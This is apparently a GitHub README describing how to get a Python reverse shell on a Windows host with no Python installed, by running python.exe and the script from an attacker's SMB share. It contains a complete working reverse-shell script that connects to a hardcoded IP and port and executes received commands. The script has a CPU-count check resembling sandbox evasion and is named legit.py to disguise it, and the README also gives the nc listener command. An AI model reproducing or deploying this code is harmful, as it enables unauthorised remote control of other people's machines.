 # Eazee-As-Py
## Execute Python Reverse Shells on Windows Hosts without Python Installed 😎

I spent this morning working out how I can execute Python on a Windows Host that doesnt have Python Installed.

There is no documentation I have found online on how to do this so I am taking all the credit 💪🏼

Im assuming the possibilites are endless with this but I only wanted to see if I could execute Reverse Shells.

Not exactly ground breaking research just a lot of trial and error. 

## How to do it

* Have a Windows Attack Machine alongside Kali (you could do all this on windows btw, just install ncat https://nmap.org/download ) 🐱
* Download and install Python on Windows Attack Machine, ensure to tick add PYTHON to PATH on install 🐍
* Navigate to Install Folder - Mine is C:\Users\<USERNAME>\AppData\Local\Programs\Python\Python310
* Right click on Python310 Folder and Share it
* Go on advanced Sharng and give it a share name, I kept it as Python310
![image](https://user-images.githubusercontent.com/130473605/234895545-22794caf-0b53-4578-8d0e-c3452209c29f.png)
* Get a Windows Specific Python Reverse Shell, most of what I found on GitHub was the Client/Server.py files but they should be good or use this.
```python
import os
import socket
import subprocess


if os.cpu_count() <= 2:
    quit()

HOST = '192.168.0.169'
PORT = 4445

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))


while 1:
    try:
        s.send(str.encode(os.getcwd() + "> "))
        data = s.recv(1024).decode("UTF-8")
        data = data.strip('\n')
        if data == "quit": 
            break
        if data[:2] == "cd":
            os.chdir(data[3:])
        if len(data) > 0:
            proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
            stdout_value = proc.stdout.read() + proc.stderr.read()
            output_str = str(stdout_value, "UTF-8")
            s.send(str.encode("\n" + output_str))
    except Exception as e:
        continue
    
s.close()
```

* Save it in the same Folder - I named it legit.py

![image](https://user-images.githubusercontent.com/130473605/234902955-91f4113a-85ca-41ec-a134-d76242612491.png)

* Setup nc to catch shell on Kali `nc -lvnp <port>`
* On Windows Host in CMD point to python.exe on remote share and pass it the reverse shell name also hosted on remote share

![image](https://user-images.githubusercontent.com/130473605/234904613-8f8f530f-1568-4ff1-b614-f1dd55423beb.png)

* Enjoy your Python Reverse Shell from a Windows Host that doesnt have Python installed

![image](https://user-images.githubusercontent.com/130473605/234906073-576c9241-4c1f-4296-8fd0-6b1e233baf92.png)




